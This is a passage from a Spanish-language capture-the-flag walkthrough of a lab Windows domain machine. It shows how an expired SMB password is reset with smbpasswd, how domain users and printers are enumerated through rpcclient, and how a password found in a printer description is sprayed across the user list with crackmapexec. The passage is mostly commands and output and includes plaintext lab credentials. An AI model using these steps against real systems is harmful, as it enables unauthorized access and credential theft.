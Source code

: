 ````bash
Intentamos connectarnos con rpcclient

```bash
rpcclient -U 'bhult%S4vitar123$!' 10.10.10.193
```

Nos pone un logon failure. Nos hace pensar que hay como una tarea que cambia la contraseña despues de un momento, intentamos hacer
lo mismo pero un poco mas rapido.

```bash
smbpasswd -r 10.10.10.193 -U "bhult"
> Old SMB password: Fabricorp01
> New SMB password: S4vitar123$!
> Retype new SMB password: S4vitar123$!

Password changed for user bhult on 10.10.10.193

rpcclient -U 'bhult%S4vitar123$!' 10.10.10.193
```

Ya estamos a dentro.

### Enumerando la maquina con rpcclient {-}

```bash
enumdomusers
```

Como hay un printer, tambien se puede enumerar impresoras.

```bash
enumprinters
```

Aqui nos sale una contraseña.

1. Copiamos los usuarios

    ```bash
    echo "user:[Administrator] rid:[0x1f4]
    user:[Guest] rid:[0x1f5]
    user:[krbtgt] rid:[0x1f6]
    user:[DefaultAccount] rid:[0x1f7]
    user:[svc-print] rid:[0x450]
    user:[bnielson] rid:[0x451]
    user:[sthompson] rid:[0x641]
    user:[tlavel] rid:[0x642]
    user:[pmerton] rid:[0x643]
    user:[svc-scan] rid:[0x645]
    user:[bhult] rid:[0x1bbd]
    user:[dandrews] rid:[0x1bbe]
    user:[mberbatow] rid:[0x1db1]
    user:[astein] rid:[0x1db2]
    user:[dmuir] rid:[0x1db3]" | grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]' > users
    ```

1. Checkeamos con crackmapexec que usuario tiene la contraseña encontrado con enumprinters

    ```bash
    crackmapexec smb 10.10.10.193 -u users -p '$fab@s3Rv1ce$1'
    ```

````